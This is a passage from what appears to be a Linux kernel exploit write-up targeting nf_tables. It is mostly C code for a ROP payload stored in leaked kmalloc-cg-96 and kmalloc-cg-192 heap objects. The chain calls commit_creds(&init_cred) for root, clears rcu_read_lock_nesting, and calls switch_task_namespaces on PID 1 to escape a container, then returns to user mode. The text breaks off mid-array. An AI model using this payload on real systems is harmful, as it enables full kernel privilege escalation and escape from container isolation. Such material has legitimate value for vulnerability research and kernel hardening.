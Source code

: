 ```c
    X(e, nft_byteorder_eval);
    X(e, nft_dynset_eval);
    X(e, nft_rt_get_eval);
    X(e, nft_bitwise_eval);
#undef  X
#endif /* CONFIG_RETPOLINE */
    expr->ops->eval(expr, regs, pkt);
}
```

#### Post RIP

Store the ROP payload below to the `kmalloc-cg-96` and `kmalloc-cg-192` addresses leaked above, and execute it.

```c
void make_payload(uint64_t* data){
    int i = 0;

    data[i++] = kbase + push_rbx_pop_rsp;

    // commit_creds(&init_cred)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + init_cred_off;
    data[i++] = kbase + commit_creds_off;

    // current = find_task_by_vpid(getpid())
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = getpid();
    data[i++] = kbase + find_task_by_vpid_off;

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = 0x474;
    data[i++] = kbase + add_rax_rsi_ret;

    data[i++] = kbase + pop_rsp_ret;
    data[i++] = heap_addr1+0x20;
}

void make_payload2(uint64_t* data){
    int i = 0;

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    data[i++] = kbase + pop_rcx_ret;
    data[i++] = -0xffff;
    data[i++] = kbase + mov_rax_rcx_ret;

    // find_task_by_vpid(1)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 1;
    data[i++] = kbase + find_task_by_vpid_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + mov_rdi_rax_ret;
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = kbase + init_nsproxy_off;
    data[i++] = kbase + switch_task_namespaces_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + swapgs_restore_regs_and_return_to_usermode_off;
    data[i++] = 0;                  // rax
    data[i++] = 0;                  // rdx
    data[i++] = _user_rip;          // user_rip
```